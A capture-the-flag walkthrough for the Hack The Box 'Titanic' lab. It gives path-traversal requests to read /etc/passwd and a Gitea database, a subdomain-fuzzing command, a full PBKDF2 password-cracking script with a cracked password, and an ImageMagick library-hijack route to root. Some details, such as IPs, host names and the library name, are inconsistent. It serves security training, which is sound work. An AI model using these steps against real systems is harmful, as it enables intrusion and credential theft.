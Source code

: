 VPN 10.10.11.61

1.  INFO: Add IP to hosts file

RUN: sudo nano /etc/hosts

2.  RUN: **nmap -sV -Pn heal.htb**

Result: PORTS FOUND: 22, 80

![](Titanic/media/image1.png)

3.  Add 10.10.11.55 titanic.htb to /etc/hosts file

4.  Activate Foxyproxy in Firefox

5.  Open <http://titanic.htb:80>

![](Titanic/media/image2.png)

- Start Burpsuite, activate INTERCEPT

- Book a ticket on Website (push SUBMIT button)

6.  **Push** **FORWARD**

![](Titanic/media/image3.png)

- Right click -\> **Send to Repeater**

Replace 1^st^ line with: **GET
/download?ticket=../../../../../../etc/passwd HTTP/1.1**

![](Titanic/media/image4.png)

1^st^ line Replaced (Result: see screenshot below)

- Push SEND

![](Titanic/media/image5.png)

Result

![](Titanic/media/image6.png)

USER.txt FLAG

![](Titanic/media/image7.png)

**SUBDOMAIN FUZZ**

1.  RUN: **ffuf -w
    /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u
    http://titanic.htb -H \"Host:FUZZ.titanic.htb\" -ac**

> ![](Titanic/media/image8.png)
>
> Add **dev.titanic.htb** to **/etc/hosts** file

![](Titanic/media/image9.png)

2.  Open [**http://dev.titanic.htb**](http://dev.titanic.htb)

> ![](Titanic/media/image10.png)

3.  Gitea DB is generally in **/data/gitea.db**

**CRACK PASSWORD**

7.  Replace 1^st^ line with db

Search for USER: developer

![](Titanic/media/image11.png)

8.  Password HASH (**blue highlighted**)

Salt (**red squares**)

![](Titanic/media/image12.png)

9.  **INFO:** Use this script to crack (Target hash + salt) or use
    Hashcat

**Create script.py and put this inside**

import hashlib

import binascii



def pbkdf2_hash(password, salt, iterations=50000, dklen=50):

hash_value = hashlib.pbkdf2_hmac(

\'sha256\',

password.encode(\'utf-8\'),

salt,

iterations,

dklen

)

return hash_value



def find_matching_password(dictionary_file, target_hash, salt,
iterations=50000, dklen=50):

target_hash_bytes = binascii.unhexlify(target_hash)



with open(dictionary_file, \'r\', encoding=\'utf-8\') as file:

count = 0

for line in file:

password = line.strip()

hash_value = pbkdf2_hash(password, salt, iterations, dklen)

count += 1

print(f\"Checking_password {count}: {password}\")

if hash_value == target_hash_bytes:

print(f\"\\nFound password: {password}\")

return password

print(\"Password not found.\")

return None



salt = binascii.unhexlify(\'8bf3e3452b78544f8bee9400d6936d34\')

target_hash =
\'e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56\'

dictionary_file = \'/home/kali/Desktop/rockyou.txt\'

find_matching_password(dictionary_file, target_hash, salt)

Should look like this

![](Titanic/media/image13.png)

10. Put Target-hash and salt in the script (lines 30,31)

11. Crack it with script.py RUN: **python3 script.py**

**PASSWORD: 25282528 found for USER: developer**

![](Titanic/media/image14.png)

Password found

![](Titanic/media/image15.png)

**ROOT**

1.  Login with User: **ssh <developer@titanic.htb>** Password:
    **25282528**

2.  You'll find a script under **/opt/scripts**

3.  Find vulnerability: Check version of **magick**

> RUN: **magick -version**
>
> **Source:**
> <https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8>

4.  According to identifiy_image.sh, **libxch.so.1** needs to be
    generated under **/opt/app/static/assets/images**

> **INFO:** This directory can be found, if you run: **find / -writable
> -type d 2\>/dev/null**
>
> ![](Titanic/media/image16.png)
>
> This causes **magick** (under root permissions) to **read root.txt**

- Put it into a **Python-script**, e.g. **script.py** or paste it
  directly into the terminal, as below.

> ![](Titanic/media/image17.png)

- List files in directory

![](Titanic/media/image18.png)

- Modify original directory content. E.G. copy a jpg file.

![](Titanic/media/image19.png)

- Check if **libxcb.so.1** and **root flag** is there

- Display **root flag**

![](Titanic/media/image20.png)
